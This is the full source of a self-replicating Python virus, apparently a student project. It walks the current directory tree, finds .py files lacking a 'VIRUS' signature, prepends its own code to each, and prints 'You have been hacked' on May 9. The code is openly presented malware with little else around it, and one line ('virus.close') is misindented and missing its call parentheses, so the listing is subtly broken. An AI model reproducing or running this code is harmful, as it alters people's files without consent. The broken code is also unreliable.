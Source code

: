 # Tells the computer to use python3 three to run the script
#!/usr/bin/python3
# Import os module
import os
# Import Determine Module
import datetime
# Set the variable Signatur to Virus
SIGNATURE = "VIRUS"
# used to locate the path of the file
def locate(path):
    files_targeted = []
    filelist = os.listdir(path)
    for fname in filelist:
        if os.path.isdir(path+"/"+fname):
            files_targeted.extend(locate(path+"/"+fname))
        elif fname[-3:] == ".py":
            infected = False
            for line in open(path+"/"+fname):
                if SIGNATURE in line:
                    infected = True
                    break
            if infected == False:
                files_targeted.append(path+"/"+fname)
   # This returns the list of files_targeted
    return files_targeted
# The def infect(files_targeted): function is used to infect the files in the list of files_targeted
def infect(files_targeted):
    virus = open(os.path.abspath(__file__))
    virusstring = ""
    for i,line in enumerate(virus):
        if 0 <= i < 39:
            virusstring += line
   
    # This closes the file    
virus.close
    for fname in files_targeted:
        f = open(fname)
        temp = f.read()
        f.close()
        f = open(fname,"w")
        f.write(virusstring + temp)
        f.close()

# The def detonate(): function is used to detonate the virus
def detonate():
    if datetime.datetime.now().month == 5 and datetime.datetime.now().day == 9:
# This prints the message
        print("You have been hacked")

# The final three lines of code are used to call the functions.
files_targeted = locate(os.path.abspath(""))
infect(files_targeted)
detonate()
Worked with tommy taylor and brittany powell
